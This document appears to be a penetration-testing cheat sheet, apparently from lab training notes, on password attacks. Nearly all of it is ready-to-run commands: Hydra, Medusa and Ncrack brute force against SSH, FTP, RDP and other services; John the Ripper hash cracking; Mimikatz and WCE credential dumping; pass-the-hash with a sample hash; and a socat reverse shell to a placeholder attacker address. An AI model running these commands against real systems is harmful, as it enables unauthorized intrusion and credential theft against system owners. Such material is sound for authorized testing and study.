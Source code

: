 # List of possible password crackers

https://github.com/topics/password-cracker

Medusa
     medusa -h 10.11.1.227 -U lab-users.txt -P lab-passwords.txt -M ftp | grep "ACCOUNT FOUND"

Ncrack (FTP, SSH, TELNET, HTTP(S), POP3(S), SMB, RDP, VNC)
     ncrack -U <[USERS_LIST]> -P <[PASSWORDS_LIST]> ftp://<[IP]>
     
AES Decryption
     http://aesencryption.net/

Convert multiple webpages into a word list
     for x in 'index' 'about' 'post' 'contact' ; do curl http://$ip/$x.html | html2markdown | tr -s ' ' '\n' >> webapp.txt ; done

Or convert html to word list dict
     html2dic index.html.out | sort -u > index-html.dict

--------------- Default Usernames and Passwords ---------------

CIRT
     http://www.cirt.net/passwords

Government Security - Default Logins and Passwords for Networked Devices
     http://www.governmentsecurity.org/articles/DefaultLoginsandPasswordsforNetworkedDevices.php

Virus.org
     http://www.virus.org/default-password/

Default Password
     http://www.defaultpassword.com/

--------------- Brute Force ---------------

Nmap Brute forcing Scripts
     https://nmap.org/nsedoc/categories/brute.html

Nmap Generic auto detect brute force attack
     nmap --script brute -Pn <target.com or ip> <enter>

MySQL nmap brute force attack
     nmap --script=mysql-brute $ip

--------------- Dictionary Files ---------------

Word lists on Kali
     cd /usr/share/wordlists

Key-space Brute Force
     crunch 6 6 0123456789ABCDEF -o crunch1.txt
     crunch 4 4 -f /usr/share/crunch/charset.lst mixalpha
     crunch 8 8 -t ,@@^^%%%

Pwdump and Fgdump - Security Accounts Manager (SAM)
     pwdump.exe - attempts to extract password hashes
     fgdump.exe - attempts to kill local antiviruses before attempting to dump the password hashes and cached credentials.

Windows Credential Editor (WCE)
     allows one to perform several attacks to obtain clear text passwords and hashes
          wce -w

Mimikatz
     extract plaintexts passwords, hash, PIN code and kerberos tickets from memory. mimikatz can also perform pass-the-hash, pass-the-ticket or build Golden tickets
     https://github.com/gentilkiwi/mimikatz From metasploit meterpreter (must have System level access): meterpreter> load mimikatz meterpreter> help mimikatz meterpreter> msv meterpreter> kerberos meterpreter> mimikatz_command -f samdump::hashes meterpreter> mimikatz_command -f sekurlsa::searchPasswords

--------------- Password Profiling ---------------
cewl can generate a password list from a web page
     # cewl www.megacorpone.com -m 6 -w megacorp-cewl.txt
Password Mutating
     John the ripper can mutate password lists
     nano /etc/john/john.conf
     john --wordlist=megacorp-cewl.txt --rules --stdout > mutated.txt

Medusa
     Medusa, initiated against an htaccess protected web directory
          medusa -h $ip -u admin -P password-file.txt -M http -m DIR:/admin -T 10
Ncrack
     ncrack (from the makers of nmap) can brute force RDP
     ncrack -vv --user offsec -P password-file.txt rdp://$ip
Hydra
     Hydra brute force against SNMP
          # hydra -P password-file.txt -v $ip snmp

     Hydra FTP known user and password list
          #hydra -t 1 -l admin -P /root/Desktop/password.lst -vV $ip ftp

     Hydra SSH using list of users and passwords
          hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh

     Hydra SSH using a known password and a username list
          hydra -v -V -u -L users.txt -p "<known password>" -t 1 -u $ip ssh

     Hydra SSH Against Known username on port 22 
          hydra $ip -s 22 ssh -l <user> -P big\_wordlist.txt

     Hydra POP3 Brute Force
          hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V

     Hydra SMTP Brute Force
          hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V

     Hydra attack http get 401 login with a dictionary
          hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin

     Hydra attack Windows Remote Desktop with rockyou 
          hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip

--------------- Password Hash Attacks ---------------

Online Password Cracking
     https://crackstation.net/

Hashcat running on

Sample Hashes
     http://openwall.info/wiki/john/sample-hashes

Identify Hashes
     hash-identifier

Crask linux hashes you must first unshadow them:
     unshadow passwd-file.txt shadow-file.txt
     unshadow passwd-file.txt shadow-file.txt > unshadowed.txt

John the Ripper - Password Hash Cracking
     john $ip.pwdump
     john --wordlist=/usr/share/wordlists/rockyou.txt hashes
     john --rules --wordlist=/usr/share/wordlists/rockyou.txt
     john --rules --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt

JTR forced descrypt cracking with wordlist
     john --format=descrypt --wordlist /usr/share/wordlists/rockyou.txt hash.txt

JTR forced descrypt brute force cracking
     john --format=descrypt hash --show

Passing the Hash in Windows
     Use Metasploit to exploit one of the SMB servers in the labs. Dump the password hashes and attempt a pass-the-hash attack against another system:
     export SMBHASH=aad3b435b51404eeaad3b435b51404ee:6F403D3166024568403A94C3A6561896
     # pth-winexe -U administrator //$ip cmd

Cracking zip file password
     # fcrackzip -D -p /usr/share/wordlists/rockyou.txt -u <filename>.zip
     # frackzip -D -v -u -p /usr/share/wordlists/rockyou.txt <file>

Cracking 7zip 
     # ./7x2john.pl file.7z > 7zhash
     # john 7zhash --wordlist:/usr/share/wordlists/rockyou.txt
     
Cracking rsa hash
     # python ssh2john.py id_rsa > id_rsa.hash
     # john id_rsa.hash --wordlist:/usr/share/wordlists/rockyou.txt
     
su crack
https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat
./socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<IP ADDRESS>:<PORT>
https://labs.portcullis.co.uk/tools/sucrack/
     From local machine
     # tar -xvf sucrack-1.2.3.tar.gz
     # cd sucrack-1.2.3
     # ./configure
     # make
     # tar -cvf sucrack.tar sucrack-1.2.3/
     
     From remote machine
     # wget http://<local ip>/sucrack
     # tar xvf sucrack.tar
     ./sucrack -u root -w 10 /<dict file>
     
